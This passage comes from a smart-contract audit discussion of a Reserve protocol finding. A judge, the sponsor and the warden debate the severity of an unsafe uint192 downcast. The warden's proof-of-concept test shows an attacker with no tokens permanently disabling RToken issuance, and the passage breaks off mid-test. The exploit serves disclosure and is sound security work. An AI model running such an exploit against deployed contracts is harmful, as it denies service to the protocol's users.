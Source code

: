 > Will leave open for sponsor review, I think Medium severity is correct if the finding turns out to be fully valid. If no more issuance can occur, redemption is still possible. Warden would have needed to demonstrate a loss of funds for this to qualify as H severity.

**[tbrent (Reserve) disagreed with severity and commented](https://github.com/code-423n4/2023-01-reserve-findings/issues/320#issuecomment-1405572151):**

> We have supported ranges of value. See `docs/solidity-style.md`.
>
> The only mistake here is that `issue()` has somewhat lacking in-line documentation:<br>
>
> > Downcast is safe because an actual quantity of qBUs fits in uint192
>
> The comment in `redeem()` is a bit better:<br>
>
> > // downcast is safe: amount < totalSupply and basketsNeeded\_ < 1e57 < 2^190 (just barely)
>
> We'll probably improve the comment in `issue()` to match `redeem()`. This should be a QA-level issue.

**[0xean (judge) decreased severity to Low/Non-Critical](https://github.com/code-423n4/2023-01-reserve-findings/issues/320#issuecomment-1399385997)**

**[Soosh (warden) commented](https://github.com/code-423n4/2023-01-reserve-findings/issues/320#issuecomment-1420413631):**

> I don't see how documentation prevents this issue.
>
> The issue exists because downcasting values above 2^192 does not revert. Maybe the sponsor misunderstood the issue thinking that it would require the attacker to deposit 2^192 of the collateral in order for the attack to succeed which is an extremely unlikely scenario.
>
> Updated the PoC to clearly show that the attacker can permanently disable the `issue(...)` function for the protocol, without owning any amount of the basket token. - addr1 is the attacker with 0 basket tokens, addr2 represents all future users who will not be able to issue new RTokens.
>
> ```js
> it('Audit: DoS by downcasting', async function () {
>   const issueAmount: BigNumber = BigNumber.from(2n ** 192n)
>
>   await token0.burn(addr1.address, bn('6.3e57'))
>   await token0.burn(addr2.address, bn('6.3e57'))
>   // await token0.mint(addr1.address, bn('10e18'))
>   await token0.mint(addr2.address, bn('10e18'))
>   expect(await token0.balanceOf(addr1.address)).to.eq(0)
>   expect(await token0.balanceOf(addr2.address)).to.eq(bn('10e18'))
>
>   // Set basket
>   await basketHandler.connect(owner).setPrimeBasket([token0.address], [fp('1')])
>   await basketHandler.connect(owner).refreshBasket()
>
>   // Attacker issues 2 ** 192, or a multiple of 2 ** 192 RTokens
>   // This will cause allVestAt to be very high, permanent DoS
>   const tx = await rToken.connect(addr1)['issue(uint256)'](issueAmount)
>   const receipt = await tx.wait()
>   console.log(receipt.events[0].args)
>
>   await token0.connect(addr2).approve(rToken.address, bn('10e18'))
>   const tx2 = await rToken.connect(addr2)['issue(uint256)'](bn('10e18'))
>   const receipt2 = await tx2.wait()
>   console.log(receipt2.events[0].args)
>
>   // one eternity later...
>   await advanceTime('123456789123456789')
>   // and still not ready
>   await expect(rToken.connect(addr2).vest(addr2.address, 1)).to.be.revertedWith(